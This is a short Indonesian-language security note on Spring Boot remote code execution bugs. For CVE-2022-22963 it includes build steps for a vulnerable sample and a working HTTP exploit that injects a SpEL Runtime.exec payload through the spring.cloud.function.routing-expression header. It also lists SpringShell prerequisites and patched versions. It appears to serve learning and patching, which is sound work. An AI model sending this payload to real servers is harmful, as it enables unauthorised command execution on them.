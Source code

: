 # Spring Boot RCE
type: #offensive  #rce 
techniques: #rce #reverseshell
target: #springboot


## CVE-2022-22963
### Intro
Spring Cloud Function:
- Implementasi business logic via function
- Decouple the development lifecycle of business logic from any specific runtime target so that the same code can run as a webendpoint, a stream processor or a task.
- Support a uniform programming model across serverless providers, as well as the ability to run standalone (locally or in a PaaS)
- Enable Spring Boot features (auto-configuration, dependency injection, metrics) on serverless providers.

Spring Expression Language (SpEL): supports query and manipulating object graph at runtime. Add method for invocation and basic string templating functionality.
Spring Cloud Function <= 3.1.6 (untuk 3.1.x) dan <= 3.2.2 (untuk 3.2.x)  

### Vulnerability
Vulnerability pada SpEL (Spring Expression Language) melalui HTTP header bernama `spring.cloud.function.routing-expression` . 

Ketika terdapat pesan yang diarahkan kepada functionRouter, routing function akan menentukan fungsi yang akan menghandle proses tersebut. Secara eksplisit kita memilih `spring.cloud.function.routing-expression`.

Parameter pada header ini tidak divalidasi oleh Cloud Function. Vulnerability ini menambah koleksi bug RCE pada Spring Framework (sebelumnya CVE-2017-8046).

### PoC : 
Build process:
```sh
wget https://github.com/spring-cloud/spring-cloud-function/archive/refs/tags/v3.1.6.zip

unzip v3.1.6.zip

cd spring-cloud-function-3.1.6

cd spring-cloud-function-samples/function-sample-pojo

mvn package

java -jar ./target/function-sample-pojo-2.0.0.RELEASE.jar
```


**Recon**
GET request ke direktori /functionRouter pada Spring Cloud Function.

```http
GET /functionRouter HTTP/1.1
host: <domain/ip>
User-Agent: <browser
Connection: close
Content-Length: 10

cyberkarta

```

**Eksploitasi**
Dengan memanipulasi  `Event Routing` , penyerang dapat menjalankan perintah (contohnya: whoami). Caranya adalah dengan mengirimkan POST request kepada `functionRouter` ditambah dengan payload `T(java.lang.Runtime).getRuntime().exec("whoami")`.
```HTTP
POST /functionRouter HTTP/1.1
host: <domain/ip>
User-Agent: <browser>
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("whoami")
Content-Length: 10

cyberkarta
```

### Mitigasi
Update Spring Cloud Function ke versi 3.1.7 ke atas (versi 3.1.x).
Update Spring Cloud Function ke versi 3.2.3 ke atas (versi 3.2.x).

### Referensi
https://spring.io/blog/2019/10/31/spring-cloud-stream-event-routing
https://github.com/hktalent/spring-spel-0day-poc


## CVE-2022-22965 (SpringShell)
Eksploit ini dapat dijalankan dengan ketentuan berikut:
- JDK9 +
- Apache Tomcat sebagai Servlet container
- Menggunakan tradisional WAR (bukan Spring Boot executable jar)
- Dependancy kepada `spring-webmvc` dan `spring-webflux`
- Spring version 5.30 - 5.3.17 atau 5.2.0 - 5.2.19

RCE juga tidak selalu dapat dijalankan, walaupun ketentuan terpenuhi.

Exploit ini membutuhkan aplikasi berjalan pada Tomcat sebagai WAR (Web Application Resource / Web application ARchive) deployment. Relate dengan bug pada 12 tahung lalu (CVE-2010-1622).


## Referensi
- https://www.fastly.com/blog/spring-has-sprung-breaking-down-cve-2022-22963-and-spring4shell-cve-2022
- https://nsfocusglobal.com/spring-cloud-function-spel-expression-injection-vulnerability-alert/
- https://arstechnica.com/information-technology/2022/04/explaining-spring4shell-the-internet-security-disaster-that-wasnt/
- https://twitter.com/RandoriAttack/status/1509298490106593283?cxt=HHwWhoCyrd2-jfIpAAAA
- https://docs.spring.io/spring-framework/docs/3.0.x/reference/expressions.html
